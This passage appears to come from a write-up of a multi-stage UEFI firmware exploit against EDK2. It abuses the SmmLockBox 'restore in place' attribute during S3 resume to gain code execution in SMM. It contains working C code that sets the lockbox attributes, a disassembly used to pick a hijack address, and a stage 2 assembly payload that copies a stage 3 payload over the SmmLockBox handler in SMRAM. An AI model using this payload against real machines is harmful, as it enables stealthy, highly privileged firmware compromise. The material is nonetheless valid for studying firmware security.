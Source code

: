 ```C
	lockbox(&(union lockboxparam){ .setattr = {
		.Header.Command      = EFI_SMM_LOCK_BOX_COMMAND_SET_ATTRIBUTES,
		.Header.DataLength   = sizeof (EFI_SMM_LOCK_BOX_PARAMETER_SET_ATTRIBUTES),
		.Header.ReturnStatus = (UINT64)-1,
		.Guid                = (EFI_GUID)
			{ 0xda1a9002, 0x041b, 0x44b4, { 0xa9, 0x17, 0xfc, 0xe3, 0x89, 0xfd, 0x0a, 0xa1 }},
		.Attributes          = LOCK_BOX_ATTRIBUTE_RESTORE_IN_PLACE,
	}});
```

0x28b8 in S3Resume2Pei is in `S3RestoreConfig2` -> inline
`RestoreAllLockBoxInPlace`, right after the
`InternalRestoreAllLockBoxInPlaceFromSmram` call and `SmmLockBoxPeiLib
RestoreAllLockBoxInPlace - Exit (%r)` print, when the inline function is
returning:

```C
edk2/MdeModulePkg/Library/SmmLockBoxLib/SmmLockBoxPeiLib.c:
695	    Status = InternalRestoreAllLockBoxInPlaceFromSmram ();
   0x000000000000289a <+747>:	call   0x1d69 <InternalRestoreAllLockBoxInPlaceFromSmram>

696	    DEBUG ((DEBUG_INFO, "SmmLockBoxPeiLib RestoreAllLockBoxInPlace - Exit (%r)\n", Status));
   0x000000000000289f <+752>:	mov    rdx,r15
   0x00000000000028a2 <+755>:	xor    r8d,r8d
   0x00000000000028a5 <+758>:	mov    ecx,0x40
   0x00000000000028aa <+763>:	call   0x1749 <DebugPrint>

edk2/UefiCpuPkg/Universal/Acpi/S3Resume2Pei/S3Resume.c:
1079	  Status = RestoreAllLockBoxInPlace ();
   0x00000000000028af <+768>:	xor    edx,edx
   0x00000000000028b1 <+770>:	mov    QWORD PTR [rbp-0x2e0],rdx

1080	  ASSERT_EFI_ERROR (Status);
   0x00000000000028b8 <+777>:	jmp    0x29e0 <S3RestoreConfig2+1073>
```

The GUID `da1a9002-041b-44b4-a917fce389fd0aa1` is just a random UUID I
generated to identify the lockbox.

This stage installs the stage 2 payload to the target location (where
S3Resume2Pei will be), then asks SmmLockBox to save it.

The address of `RtDataPhys` is the start of UEFI runtime data region.
`PiSmmIplPhys` and `S3Resume2PeiPhys` are obtained from `edk2debug.log`:

```
Loading driver at 0x0000EAC6000 EntryPoint=0x0000EAC9EDF PiSmmIpl.efi
Loading PEIM at 0x00000852540 EntryPoint=0x00000855295 S3Resume2Pei.efi
```

### Stage 2: PEI payload installs SMM payload into SMRAM

```asm
payload_stage2:
  pushf
  push %rdi
  push %rsi
  push %rcx
  lea payload_stage3(%rip),%rsi
  mov $(0x0000FFDA000+0x0000000000002743),%rdi // SmmLockBoxPhys + SmmLockBoxHandler
  mov $(payload_end-payload_stage3),%rcx
  rep movsb
  pop %rcx
  pop %rsi
  pop %rdi
  popf
  push $(0x00000852540+0x00000000000029e0) // S3Resume2PeiPhys + jump target
```